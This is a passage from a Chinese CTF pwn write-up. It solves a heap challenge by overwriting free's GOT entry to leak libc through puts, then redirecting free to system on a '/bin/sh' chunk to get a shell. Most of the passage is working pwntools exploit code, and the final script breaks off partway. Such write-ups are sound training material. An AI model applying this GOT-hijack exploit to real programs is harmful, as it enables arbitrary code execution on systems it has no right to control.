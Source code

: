 2. 泄漏libc地址，由于没有show函数，所以利用free函数来输出 ==> 用puts函数的plt地址覆盖掉free函数got表中的值，然后再修改亏chunk中的值为puts函数的got表地址，free掉傀儡chunk得到puts函数地址，进而获得libc基地址：

   ```python
   #利用傀儡，泄漏puts函数的got表，泄漏libc基地址
   payload1 = p64(elf.got["free"])     #写入free函数的got表,
   edit(1,payload1)
   
   payload2 = p64(elf.plt["puts"])[0:7] #用puts函数的plt地址hook掉，这里只西药7位，给8位时edit后会将got表的下一项最低为赋值为0，hi报错
   edit(2,payload2)
   payload1 = p64(elf.got["puts"])     #写入puts函数的got表,后续free输出泄漏
   edit(1,payload1)
   free(2)
   #获取libc基地址
   puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = puts_addr - libc.symbols['puts']
   sys_addr = libc_base + libc.symbols['system']
   success("puts_addr==>"+hex(puts_addr))
   success("libc_addr==>"+hex(libc_base))
   success("system_addr==>"+hex(sys_addr))
   ```

   ![image-20240718192319557](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181923750.png)

   ![image-20240718192523139](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407181925324.png)

3. 最后，用system函数的地址hook掉free函数的got表项，free掉一个指向b"/bin/sh\x00"的指针，即可getshell：

   ```python
   #继续利用傀儡，hook掉free函数的got表，改为system函数地址
   payload2 = p64(elf.got["free"])     #写入strlen函数的got表
   edit(1,payload2)
   
   payload4 = p64(sys_addr)[0:7]      #修改free函数的got表
   edit(2,payload4)
   
   edit(3,b"/bin/sh\x00")
   free(3)
   p.sendline(b"cat flag")
   p.interactive()
   ```

4. 完整EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   # p = remote("node5.buuoj.cn",26686)
   p = process("./pwn")
   libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')
   elf = ELF("./pwn")
   
   def add(size,content):
       p.sendlineafter(b'>',b'1')
       p.sendline(str(size).encode())
       p.sendline(content)
   
   def edit(index, content):
       p.sendlineafter(b'>',b'3')
       p.sendlineafter(b":\n",str(index).encode())
   ```